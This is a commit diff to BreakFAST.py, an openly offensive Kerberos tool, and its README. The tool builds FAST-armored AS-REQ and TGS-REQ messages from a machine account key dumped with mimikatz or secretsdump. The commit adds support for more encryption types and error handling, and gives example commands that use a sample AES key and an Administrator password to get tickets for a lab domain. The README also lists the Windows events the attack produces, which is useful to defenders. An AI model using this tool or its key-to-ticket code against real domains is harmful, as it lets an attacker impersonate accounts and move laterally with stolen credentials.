

add supplementary etype

Changed region(s): [[0.0, 0.0901, 0.9002, 0.9011], [0.0, 0.0, 1.0, 0.0601], [0.0, 0.9611, 1.0, 1.0]]

diff --git a/BreakFAST.py b/BreakFAST.py
@@ -2,7 +2,7 @@
 Usage: 
 ------
     
-    ./BreakFAST.py -key <key> -machine <machine> [-outfile <.ccache>] [-spn <SPN>] identity
+    ./BreakFAST.py -etype <int> -ekey <key> -machine <machine> [-outfile <.ccache>] [-spn <SPN>] identity
 
 Details:
 --------
@@ -61,6 +61,34 @@ import krb5
 import gssapi
 import gssapi.raw
 
+# Ex etypes and ekeys:
+# WIN-D7FNC0765NG$:aes256-cts-hmac-sha1-96:7e1cf276579d969397ca3f2a6b0fa990c1450329d12a52331d6cdf76d35820c9
+# WIN-D7FNC0765NG$:aes128-cts-hmac-sha1-96:7a7d3903abbb62169b01fd38872dfe9b
+# WIN-D7FNC0765NG$:des-cbc-md5:b61f4f682a9e4386
+
+etypes = {
+    'des-cbc-crc': 1, 
+    'des-cbc-md4': 2, 
+    'des-cbc-md5': 3,
+    'des3-cbc-md5': 5,
+    'des3-cbc-sha1': 7,
+    'dsaWithSHA1-CmsOID': 9,
+    'md5WithRSAEncryption-CmsOID': 10,
+    'sha1WithRSAEncryption-CmsOID': 11,
+    'rc2CBC-EnvOID': 12,
+    'rsaEncryption-EnvOID': 13,
+    'rsaES-OAEP-ENV-OID': 14,
+    'des-ede3-cbc-Env-OID': 15,
+    'des3-cbc-sha1-kd': 16,
+    'aes128-cts-hmac-sha1-96': 17, 
+    'aes256-cts-hmac-sha1-96': 18,
+    'aes128-cts-hmac-sha256-128': 19, 
+    'aes256-cts-hmac-sha384-192': 20,
+    'rc4-hmac': 23,
+    'rc4-hmac-exp': 24,
+    'camellia128-cts-cmac': 25,
+    'camellia256-cts-cmac': 26
+}
 
 def data_bytes(data):
     return struct.pack(f'>h{len(data)}s', len(data), bytes(data, 'ascii'))
@@ -74,7 +102,6 @@ class Principal:
 
     def packed(self):
         return struct.pack(f'>h{len(self.realm)}s{len(self.component)}sl', *astuple(self))
-
 
 @dataclass
 class Entry:
@@ -91,8 +118,12 @@ class Entry:
         return struct.pack('>l{}s'.format(len(packed_entry)), len(packed_entry), packed_entry)
 
 
-def ConvertKeyToKeyTab(machine, key, realm):
-    etype = 18 # todo: add other formats, see refs.
+def ConvertKeyToKeyTab(machine, alg, key, realm):   
+    if alg in etypes.values():
+            etype = alg
+    else:
+        raise argparse.ArgumentTypeError(f"Invalid algorithm number: {alg}")    
+    
     key = bytes.fromhex(key)
     principal = Principal(realm = data_bytes(realm), component = data_bytes(machine))
     entry = Entry()
@@ -132,13 +163,13 @@ def GetFASTArmor(realm, username, passw, keytab, outfile):
     cred = krb5.get_init_creds_password(ctx, princ, init_opt, password=passw.encode('utf-8'))
     
     print('\n'+"---"*10)
-    print(f"[*] Received FAST TGT")
+    print(f"[*] FAST AS-REQ sent...")
     
     tgt = krb5.cc_resolve(ctx, f"FILE:{outfile}".encode())
     krb5.cc_initialize(ctx, tgt, princ)
     krb5.cc_store_cred(ctx, tgt, cred)
     
-    print(f"[*] Saved FAST TGT to {outfile}")
+    print(f"[+] Saved TGT to {outfile}")
     return tgt
 
 
@@ -165,16 +196,17 @@ def GetFASTSt(realm, username, tgt, machine, spn, outfile):
         name=gssapi.Name(spn, name_type=gssapi.NameType.hostbased_service),
         mech=kerberos,
     )
-    print(f"[*] Received FAST ST")
+    print(f"[*] FAST TSG-REQ sent...")
     
     token = cifs_ctx.step()
-    print(f"[*] Saved FAST ST for {spn} to {outfile}")
+    print(f"[+] Saved FAST ST for {spn} to {outfile}")
 
 
 def main():
 
-    # Usage: BreakFAST.py -key <key> -machine <machine> [-outfile <.ccache>] [-spn <SPN>] identity
-    # -key : machine account key, retrieved using secretsdump or mimikatz
+    # Usage: BreakFAST.py -etype <id> -ekey <key> -machine <machine> [-outfile <.ccache>] [-spn <SPN>] identity
+    # -etype : Encryption algorithm, see list - pass as integer, defaults to AES 
+    # -ekey : machine account key, retrieved using secretsdump or mimikatz
     # -machine: machine account the key belongs to, with $ at the end
     # [option] -outfile: name for .ccache where ticket will be saved
     # [option] -spn: service principal name, will trigger FAST TGS-REQ and .ccache will contain the ST
@@ -182,7 +214,8 @@ def main():
     # Default : emit FAST AS-REQ for identity under machine, obtain TGT for this identity
 
     parser = argparse.ArgumentParser(description="BreakFAST - Forge FAST Armoring AS-REQ/TGS-REQs")
-    parser.add_argument("-key", help="ekey for machine account", required=True)
+    parser.add_argument("-etype", help="Encryption algorithm id)", default=18)
+    parser.add_argument("-ekey", help="Ekey for machine account, needs to match etype", required=True)
     parser.add_argument("-machine", help="machine account for armor TGT", required=True)
     parser.add_argument("-outfile", help=".ccache file to save TGT/ST")
     parser.add_argument("-spn", help="request a TGS for the given SPN")
@@ -193,9 +226,10 @@ def main():
         sys.exit(1)
 
     args = parser.parse_args()
-    key = args.key
+    key = args.ekey
     machine = args.machine
-    
+    alg = int(args.etype)
+
     if machine[-1] != "$":
         machine += "$"
 
@@ -207,16 +241,30 @@ def main():
         outfile = 'TGT_BreakFAST.ccache'
     
     realm, username, password, _, _, _ = parse_identity(args.identity)
+    keytab = ConvertKeyToKeyTab(machine, alg, key, realm)
+    
+    try: 
+        tgt = GetFASTArmor(realm, username, password, keytab, outfile)
 
-    keytab = ConvertKeyToKeyTab(machine, key, realm)
-    tgt = GetFASTArmor(realm, username, password, keytab, outfile)
-    if args.spn is not None:
-        spn = args.spn
-        GetFASTSt(realm, username, tgt, machine, spn, outfile) 
+        if args.spn is not None:
+            spn = args.spn
 
-    print("---"*10)
-    print(f"[*] Use with: \texport KRB5CCNAME={outfile}")
-    print("---"*10+'\n')
+            try:
+                GetFASTSt(realm, username, tgt, machine, spn, outfile) 
+                print(f"[*] Use with: export KRB5CCNAME={outfile}")
+            except:
+                print(f"[!] TGS-REQ failed, check if {spn} exists ?")
+        print("---"*10+'\n')
+
+    except krb5._exceptions.Krb5Error as e:
+        print('\n'+"---"*10)
+        if "Pre-authentication failed" in str(e) and "No key table entry found" in str(e):
+            print(f"[!] Error: eType not supported for {machine}@{realm}")
+            print("[?] Try with etype=18 (aes256-cts-hmac-sha1-96) ?")
+            
+        else:
+            print("[!] Pre-authentication failed. Check etype, ekey, and identity.")
+        print("---"*10+'\n')
 
 if __name__ == '__main__':
     main()

diff --git a/README.md b/README.md
@@ -24,13 +24,13 @@ As detailed in [this blog](https://www.trustedsec.com/blog/i-wanna-go-fast-reall
 `BreakFAST.py` can either be used as substitution to impacket's `GetTGT.py`:
 
 ```
-python3 ./BreakFAST.py -key <key> -machine <machine> [-outfile <.ccache>] identity
+python3 ./BreakFAST.py [-etype <etype>] -ekey <ekey> -machine <machine> [-outfile <.ccache>] identity
 ```
 
 or as a substitute to impacket's `GetST.py`: 
 
 ```
-python3 ./BreakFAST.py -key <key> -machine <machine> [-outfile <.ccache>] -spn <SPN> identity
+python3 ./BreakFAST.py [-etype <etype>] -ekey <ekey> -machine <machine> [-outfile <.ccache>] -spn <SPN> identity
 ```
 
 The former will give you a `TGT`, the second a `ST` for the target principal - which implies that you get a `TGT` first. If you do not pass `-spn <SPN>` the default behaviour is to request only a `TGT`.
@@ -74,10 +74,41 @@ SID               : S-1-5-20
            ...
 ```
 
-In the above example, the string `7e1...0c9` corresponds to the long-term `aes256-cts-hmac-sha1-96` key, you might also find `aes128-cts-hmac-sha1-96`, `des-cbc-md4` and other formats. The machine account for which you extract the key will be used to build the FAST armor. 
+In the above example, the string `7e1...0c9` corresponds to the long-term `aes256-cts-hmac-sha1-96` key, you might also find `aes128-cts-hmac-sha1-96`, `des-cbc-md4` and other formats. 
+
+> [!WARNING]
+> In some `mimikatz` implementations (ex. Release `2.2.0 20220919`) all keys dumped with `sekurlsa::ekeys` will appear with `etype` set to `des-cbc-md4`. Also, note that you will not be able to dump `ekeys` locally if the user is part of `protected users` (see the [table here](https://github.com/swisskyrepo/InternalAllTheThings/blob/main/docs/cheatsheets/mimikatz-cheatsheet.md))
+
+The machine account for which you extract the key will be used to build the FAST armor. The following formats are supported as they're part of legacy encryption `etype`, defaults, or `futur etypes`. 
+
+```sh
+etypes = {
+    'des-cbc-crc': 1, 
+    'des-cbc-md4': 2, 
+    'des-cbc-md5': 3,
+    'des3-cbc-md5': 5,
+    'des3-cbc-sha1': 7,
+    'dsaWithSHA1-CmsOID': 9,
+    'md5WithRSAEncryption-CmsOID': 10,
+    'sha1WithRSAEncryption-CmsOID': 11,
+    'rc2CBC-EnvOID': 12,
+    'rsaEncryption-EnvOID': 13,
+    'rsaES-OAEP-ENV-OID': 14,
+    'des-ede3-cbc-Env-OID': 15,
+    'des3-cbc-sha1-kd': 16,
+    'aes128-cts-hmac-sha1-96': 17, 
+    'aes256-cts-hmac-sha1-96': 18,
+    'aes128-cts-hmac-sha256-128': 19, 
+    'aes256-cts-hmac-sha384-192': 20,
+    'rc4-hmac': 23,
+    'rc4-hmac-exp': 24,
+    'camellia128-cts-cmac': 25,
+    'camellia256-cts-cmac': 26
+}
+```
 
 > [!NOTE]
-> This tool currently only supports `aes256-cts-hmac-sha1-96` but other formats will be added. While the RFC discusses `AES128, AES256, DES, 3DES` and `RC4-HMAC` (See [RFC 6113 Appendix A.](https://www.rfc-editor.org/rfc/rfc6113.txt)), MS-KILE defaults to `AES256`.
+> While the RFC discusses `AES128, AES256, DES, 3DES` and `RC4-HMAC` (See [RFC 6113 Appendix A.](https://www.rfc-editor.org/rfc/rfc6113.txt)), MS-KILE defaults to `AES256`. If you don't know what to use, use the default `-etype=18` 
 
 #### Dependencies
 
@@ -118,17 +149,17 @@ Now that you've installed all the dependencies, prepared the long-term key and c
 
 ```sh
 # Syntax
-python3 ./BreakFAST.py -key <key> -machine <machine> [-outfile <.ccache>] [-spn <SPN>] identity
+python3 ./BreakFAST.py [-etype <etype>] -ekey <ekey> -machine <machine> [-outfile <.ccache>] [-spn <SPN>] identity
 
 # Ex. Get a ST for cifs/hostname
-python3 ./BreakFAST.py -key 7e1cf276579d969397ca3f2a6b0fa990c1450329d12a52331d6cdf76d35820c9 \
+python3 ./BreakFAST.py -etype 18 -ekey 7e1cf276579d969397ca3f2a6b0fa990c1450329d12a52331d6cdf76d35820c9 \
                        -machine WIN-D7FNC0765NG$ \
                        -spn 'cifs@WIN-D7FNC0765NG.ocean.net' \
                        -outfile ST.ccache \
                        OCEAN.NET/Administrateur:'aaaa1234!' \
 
 # Ex. Get a TGT for Administrateur
-python3 ./BreakFAST.py -key 7e1cf276579d969397ca3f2a6b0fa990c1450329d12a52331d6cdf76d35820c9 \
+python3 ./BreakFAST.py -etype 18 -ekey 7e1cf276579d969397ca3f2a6b0fa990c1450329d12a52331d6cdf76d35820c9 \
                        -machine WIN-D7FNC0765NG$ \
                        -outfile TGT.ccache \
                        OCEAN.NET/Administrateur:'aaaa1234!' \
@@ -138,12 +169,11 @@ In a nutshell, the above command will emit a `FAST AS-REQ` using the AES Key (si
 
 ```
 ------------------------------
-[*] Received FAST TGT
-[*] Saved FAST TGT to ST.ccache
-[*] Received FAST ST
-[*] Saved FAST ST for cifs@WIN-D7FNC0765NG.ocean.net to ST.ccache
-------------------------------
-[*] Use with: 	export KRB5CCNAME=ST.ccache
+[*] FAST AS-REQ sent...
+[+] Saved TGT to BreakFAST.ccache
+[*] FAST TSG-REQ sent...
+[+] Saved FAST ST for cifs@WIN-D7FNC0765NG.ocean.net to BreakFAST.ccache
+[*] Use with: export KRB5CCNAME=BreakFAST.ccache
 ------------------------------
 ```
 
@@ -211,6 +241,18 @@ The tool will emit two or three distinct requests depending on wether you use `-
 
 *Fig. FAST TGS-REQ/REP*
 <img src="img/ws-st.png" style="width:100%; height:auto;">
+
+The following events will be generated: 
+
+- **EVENT 4768(S, F)**: `A Kerberos authentication ticket (TGT) was requested`. The encrypted-challenge type will be `138: PA-ENCRYPTED-CHALLENGE`, once for the armor generation and once for identity targeted (see Fig. above)
+
+- **EVENT 4769(S, F)**: `A Kerberos service ticket was requested`. 
+
+In case of failed pre-auth (for machine account or for identity) : 
+
+- **EVENT 4771(F)**: `Kerberos pre-authentication failed`. The encrypted-challenge type will be `138: PA-ENCRYPTED-CHALLENGE`, once for the armor generation and once for identity targeted (see Fig. above)
+
+
 
 ## APPENDIX A. How does FAST armoring actually work ?
 
